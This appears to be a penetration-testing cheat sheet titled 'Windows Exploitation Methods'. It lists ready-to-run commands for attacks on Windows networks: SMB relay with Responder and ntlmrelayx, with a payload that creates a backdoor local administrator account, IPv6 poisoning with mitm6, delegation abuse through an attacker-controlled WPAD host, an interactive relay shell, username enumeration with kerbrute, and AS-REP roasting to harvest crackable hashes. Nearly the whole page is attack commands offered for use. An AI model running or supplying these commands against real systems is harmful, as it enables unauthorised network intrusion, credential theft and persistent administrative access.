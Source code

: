 # Windows Exploitation Methods

## MITM

## SMB Relay

1. First disable SMB and HTTP in `/etc/responder/responder.conf`

2. Collect targets with signing disabled

    ```
    $ crackmapexec smb <CIDR> --gen-relay-list targets.txt
    ```

3. Run responder

    ```
    $ responder.py -I <interface> -r -d -w
    ```

4. Run ntlmrelay.py

    ```
    $ ntlmrelayx.py -tf targets.txt -of loot -c "net user user password /add && net localgroup Administrators user /add"
    ```

## IPv6

### run [mitm6](https://github.com/fox-it/mitm6) for ipv6
```
mitm6 -i eth0 -d example.local
```

### run [ntlmrelay](https://github.com/SecureAuthCorp/impacket) to execute a command

Use impacket's `ntlmrelay.py` for various attacks

```
# run a command
$ ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user user password /add && net localgroup Administrators user /add" -of loot
# add computer and delegate access
$ ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access -of loot
# interactive shell
$ ntlmrelayx.py -wh attacker-wpad -t smb://example.local/ -i -of loot
# grab loot
$ ntlmrelayx.py -6 -wh $attacker_ip -of loot -tf relay.txt
```

## ASREPROAST

Get usernames

```
$ comb -s="." /opt/Spray/name-lists/english-first-1000.txt /opt/Spray/name-lists/english-last-1000.txt | tee usernames.txt
```

Run kerbrute

```
$ kerbrute userenum -d example.local usernames.txt -o kerbrute-out.log
```

Run ASREPROAST attack

```
GetNPUsers.py example.local/ -usersfile kerbrute-usernames.txt -dc-ip 192.168.1.10
```